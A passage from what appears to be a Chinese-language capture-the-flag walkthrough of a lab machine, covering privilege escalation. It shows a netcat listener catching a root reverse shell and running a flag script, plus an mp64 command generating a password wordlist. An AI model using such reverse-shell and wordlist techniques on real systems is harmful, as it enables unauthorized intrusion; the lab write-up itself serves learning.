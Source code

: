 ### 提权

Kali 监听 **6677** 端口，运行 */root/run_me_for_flag.sh* 脚本即可得到 flag：

```shell
┌──(root💀kali)-[~]
└─# nc -lvp 6677
listening on [any] 6677 ...
192.168.174.140: inverse host lookup failed: Unknown host
connect to [192.168.174.128] from (UNKNOWN) [192.168.174.140] 43348
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# pwd
/root/destroy/7f98ca7ba1484c66bf09627f931448053ae6b55a
# cd /root
# ls
ctf-scripts
Desktop
destroy
flag
# cd flag
# ls
files
index.php
run_me_for_flag.sh
# ./run_me_for_flag.sh
-------------------------------
-------------------------------
Go here:   http://<ip>:8007
-------------------------------
-------------------------------
```

![4]({{ '/view2akill/4.png' | prepend: site.url }})

### 总结

1. 使用 *mp64* 生成字典：`mp64 ?lview?d?d > dic.txt`

